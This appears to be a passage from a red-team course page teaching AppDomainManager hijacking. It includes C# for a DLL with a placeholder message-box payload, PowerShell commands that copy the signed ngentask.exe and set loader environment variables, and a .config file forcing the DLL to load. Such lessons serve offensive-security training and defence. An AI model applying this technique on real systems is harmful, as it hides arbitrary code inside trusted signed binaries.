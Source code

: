 # AppDomainManager

There are also methods of forcing .NET applications into loading DLLs regardless of the search order.  [Startup hooks](https://rastamouse.me/net-startup-hooks/) can be utilised for apps written in .NET Core 3.1 or higher.  Here, I'll demonstrate how to use a custom [AppDomainManager](https://learn.microsoft.com/en-us/dotnet/api/system.appdomainmanager?view=netframework-4.8.1), which works for apps written in .NET Framework.  This requires us to write a class that inherits from _AppDomainManager_, and compile it to a .NET DLL.  The malicious code can go in the class constructor or one of the virtual methods that you can override.

```vbnet
using System;
using System.Windows.Forms;

namespace AppDomainHijack;

public sealed class DomainManager : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        MessageBox.Show("Hello World", "Success");
    }
}
```

This DLL needs to be in the same directory as the .NET app that we want to have it loaded into. There are over 100 .NET assemblies installed by default on a Windows system, including NGenTask used in the previous example, which we can just copy into the current directory.

```powershell
PS C:\Users\Attacker> cp C:\Windows\WinSxS\amd64_netfx4-ngentask_exe_b03f5f7f11d50a3a_4.0.15805.0_none_d4039dd5692796db\ngentask.exe ngentask.exe
PS C:\Users\Attacker> cp C:\Tools\AppDomainHijack\bin\Debug\AppDomainHijack.dll domainManager.dll
```

There are two ways to have the app load the DLL.  The first is via two environment variables called `APPDOMAIN_MANAGER_ASM` and `APPDOMAIN_MANAGER_TYPE`.

```powershell
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_ASM = 'AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null'
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_TYPE = 'AppDomainHijack.DomainManager'
```

> The type and assembly names must be fully qualified.

Once the variables are in place, executing the application will cause it to load the DLL.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/e8159f4a8e71f91ce5aaf6cf2a30aa92.png" alt="" width="100%"><figcaption></figcaption></figure>

The other method is to use the `appDomainManagerAssembly` and `appDomainManagerType` elements in a `.config` file.  The filename must be prefixed with the application name, e.g. `ngentask.exe.config`.

```xml
<configuration>
   <runtime>
      <appDomainManagerAssembly value="AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />  
      <appDomainManagerType value="AppDomainHijack.DomainManager" />  
   </runtime>
</configuration>
```

